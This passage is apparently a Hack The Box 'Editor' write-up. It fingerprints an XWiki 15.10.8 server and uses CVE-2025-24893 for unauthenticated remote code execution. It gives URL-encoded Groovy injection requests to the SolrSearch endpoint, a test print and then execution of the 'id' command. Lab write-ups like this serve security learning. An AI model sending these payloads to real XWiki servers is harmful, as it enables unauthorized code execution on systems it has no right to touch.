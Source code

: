 And in the bottom of the page of the wiki portal, we find an XWiki Version number: `XWiki Debian 15.10.8`

A quick search for a CVE we find lots of CVEs: 

- CVE-2025-32968: Needs SCRIPT rights to perform a Blind SQLi. Which we don't have for the moment.
- CVE-2025-24893: Unauthenticated user can execute arbitrary code. This might be it.


# Foothold
[Here](https://www.ionix.io/blog/xwiki-remote-code-execution-vulnerability-cve-2025-24893/) is a detailed and informative report on the last CVE.
So, reading more on `CVE-2025-24893` in [here](https://nvd.nist.gov/vuln/detail/CVE-2025-24893), We're on the right path. Confirming using:
```
http://wiki.editor.htb/xwiki/bin/get/Main/SolrSearch?media=rss&text=%7D%7D%7D%7B%7Basync%20async%3Dfalse%7D%7D%7B%7Bgroovy%7D%7Dprintln%28%22Hello%20from%20search%20text%3A%20%22%20%2B%20%2823%2B19%29%29%7B%7B%2Fgroovy%7D%7D%7B%7B%2Fasync%7D%7D

```

Which decodes to this:
```java
}}}{{async async=false}}{{groovy}}println("Hello from search text: " + (23+19)){{/groovy}}{{/async}}

```

This will print out:
![This](assets/htb-editor-2.png)

So, the target is indeed vulnerable and we can gain RCE. Let's test for some system commands:
```
http://wiki.editor.htb/xwiki/bin/get/Main/SolrSearch?media=rss&text=%7D%7D%7D%7B%7Basync%20async%3Dfalse%7D%7D%7B%7Bgroovy%7D%7Dprintln%28%22Result%3A%20%22%20%2B%20%22id%22.execute%28%29.text%29%7B%7B%2Fgroovy%7D%7D%7B%7B%2Fasync%7D%7D

```
Which decodes to this:
```java
}}}{{async async=false}}{{groovy}}println("Result: " + "id".execute().text){{/groovy}}{{/async}}

```

Which successfully executes the `id` command:
![here](assets/htb-editor-3.png)
